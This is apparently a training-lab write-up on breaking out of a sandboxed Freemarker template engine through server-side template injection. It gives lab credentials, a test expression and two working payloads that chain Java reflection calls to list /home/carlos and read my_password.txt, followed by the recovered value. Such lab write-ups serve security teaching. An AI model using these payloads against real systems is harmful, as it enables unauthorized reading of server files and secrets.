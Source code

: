 # Lab: Server-side template injection in a sandboxed environment

> Lab Objective: break out of the sandbox to read the file `my_password.txt` from Carlos's home directory. Then submit the contents of the file.

- Login using provided credentials `content-manager:C0nt3ntM4n4g3r`

- Freemarker template engine is being used (given).

- View any product, then edit template with this payload `${3*3}`, you'll notice that the expression has executed after saving the template.
  ![1st screenshot](./attachments/1.png)
  ![2nd screenshot](./attachments/2.png)

- Therefore, you can use the following payload to list contents of `/home/carlos` directory.

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos').toURL().openStream().readAllBytes()?join(" ")}
```

- Then convert bytes to ASCII.
  ![3rd screenshot](./attachments/3.png)

- Output:

```plaintext
.bash_logout
.bashrc
.profile
my_password.txt
```

- Read `my_password.txt` file using this payload:

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

- Convert bytes to ASCII:
  ![4th screenshot](./attachments/4.png)

- The output: `d3r85qml5nifbih79vby`

- Submit the output and the lab is solved.
  ![5th screenshot](./attachments/5.png)

---
